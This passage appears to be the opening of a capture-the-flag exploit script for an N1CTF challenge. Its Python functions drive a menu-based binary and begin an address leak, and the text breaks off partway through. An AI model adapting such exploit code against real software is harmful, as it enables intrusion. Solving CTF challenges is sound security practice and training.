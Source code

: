 ```
def Encode(Keyname):
    p.sendlineafter("> \n",str(4))
    p.sendlineafter("Key name:\n",Keyname)
    p.recv()

def exp():
    # leak UiAPP address
    p.sendline("\x1b[24~"*10)
    p.sendlineafter("> \n",str(1))
    p.sendlineafter("Key name:\n","N1CTF_KEY3")
    p.sendafter("Key val...
